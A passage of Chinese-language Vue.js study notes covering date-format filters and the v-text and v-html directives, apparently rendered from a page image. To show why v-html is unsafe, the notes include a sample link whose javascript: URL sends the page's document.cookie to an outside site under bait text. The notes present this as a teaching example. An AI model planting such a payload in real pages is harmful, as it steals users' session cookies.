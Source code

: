 ```html
                        return dayjs(val).format("YYYY年MM月DD号 HH:mm:ss");
                },
                filterCurrentTime1(val){
                        return dayjs(val).format(str);
                }
            }
        })
    </script>
</body>
</html>
```

### 15.内置指令

#### 15.1.v-text指令

作用:向其所在的节点(标签)中渲染文本内容

与插值语法的区别:v-text会替换掉节点的所有内容,插值语法不会,也不会解析标签.

#### 15.2.v-html指令

与v-text的区别:v-html可以传递标签  (存在安全性问题)

**信息的安全性与cookie息息相关**

<img src="https://notebook-img.oss-cn-shanghai.aliyuncs.com/old-img/202202220939745.png" alt="image-20220222093959471" style="zoom:50%;" />

<img src="https://notebook-img.oss-cn-shanghai.aliyuncs.com/old-img/202202220941421.png" alt="image-20220222094120282" style="zoom:50%;" />

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>v-html指令</title>
    <script src="JS文件/vue.js"></script>
</head>
<body>
    <div id="root">
            <div v-html="message"></div>
    </div>
    <script>
        new Vue({
            el:"#root",
            data() {
                return {
                    //document.cookie 获取当前网页的全部cookie ? 表示传参    点击时 将当前网页所有cookie传递给跳转的网页
                    message:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>点击跳转页面,你需要的资源都在这里!!!</a>'
                }
            },
        })
    </script>
</body>
</html>
```
